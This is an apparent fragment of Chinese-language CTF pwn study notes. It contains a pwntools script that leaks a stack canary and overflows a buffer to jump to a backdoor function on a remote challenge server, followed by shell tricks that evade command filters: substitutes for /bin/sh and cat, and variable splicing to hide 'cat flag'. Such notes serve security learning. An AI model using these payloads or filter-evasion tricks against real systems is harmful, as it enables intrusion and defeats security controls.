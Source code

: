 ```python

print 'canary=',canary
```

简单溢出canary：

```python
from pwn import *
from struct import pack
#context(arch='amd64', os='linux', log_level='debug')
back=0x4011b6
io = remote('gz.imxbt.cn', 20429)
pay1= b'a'*(0x70-8+1) #留一个用来溢出canary
io.send(pay1)
io.recvuntil(b'a'*0x68)
canary= u64(io.recv(8))-0x61#减去多余的一个b'a'
print(hex(canary))
payload=b'a'*0x68+p64(canary)+b'b'*8+p64(0x40101a)+p64(back)
io.sendline(payload)
io.interactive()         # 进入交互模式
```



#### pie:





### 沙箱绕过：

#### bin/sh等价

```shell
$0
sh
bin/sh

```

#### cat等价

```shell
tail / head / tac / nl / grep / more / less flag
cat flag
ls 
```

#### 拼接绕过

```shell
a=c;b=at;c=f;d=lag.txt;
$a$b ${c}${d}
```

#### 反斜杠绕过

